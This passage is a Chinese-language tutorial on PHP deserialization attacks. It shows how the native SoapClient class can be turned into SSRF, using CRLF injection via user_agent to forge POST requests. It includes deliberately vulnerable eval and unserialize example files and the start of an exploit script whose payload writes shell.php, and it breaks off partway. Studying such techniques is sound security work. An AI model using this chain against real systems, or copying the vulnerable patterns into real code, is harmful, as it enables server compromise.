 - 如果在代码审计中有反序列化点，但是在原本的代码中找不到可利用的类时，可以考虑使用php中的一些原生类
- 有些类不一定能够进行反序列化，php中使用了zend_class_unserialize_deny来禁止一些类的反序列化
## SoapClient __call方法进行SSRF
**使用前提：**
- 需要有soap扩展，且不是默认开启，需要手动开启
- 需要调用一个不存在的方法触发其__call()函数
- 仅限于http/https协议

**soap是什么：**
- soap是webServer的三要素之一(SOAP、WSDL、UDDI)
- WSDL用来描述如何访问具体的接口
- UUDI用来管理、分发、查询webServer
- SOAP是连接web服务和客户端的接口
- 简单地说，SOAP 是一种简单的基于 XML 的协议，它使应用程序通过 HTTP 来交换信息

**php中的soapClient类：**
php中的scapClient类可以创建soap数据报文，与wsdl接口进行交互

```php
用法：

public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )

第一个参数是用来指明是否是wsdl模式
如果为null，那就是非wsdl模式，反序列化的时候会对第二个参数指明的url进行soap请求

如果第一个参数为null，则第二个参数必须设置location和uri
  其中location是将请求发送到的SOAP服务器的URL
  uri是SOAP服务的目标名称空间

第二个参数允许设置user_agent选项来设置请求的user-agent头
```

 - 正常情况下的SoapClient类，调用一个不存在的函数，会去调用__call方法，发出请求
- SoapClient发出的请求包的user_agent是完全可控的，结合CRLF注入可以构造一个完全可控的POST请求，因为POST请求最关键的Content-Length和Content-Type都在user_agent之下
- 如果是GET请求，就简单得多，只需要构造好location就可以了
- 需要注意的是，SoapClient只会发出请求，而不会收到响应

示例

```php
flag.php

<?php
if($_SERVER['REMOTE_ADDR']=='127.0.0.1'){
    eval($_POST['a']);
}
?>

index.php

<?php
$c=unserialize($_GET['a']);
$c->ss();
?>

exp.php

<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'a=file_put_contents("shell.php", "<?php phpinfo();?>");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: aaaa=ssss'
);
```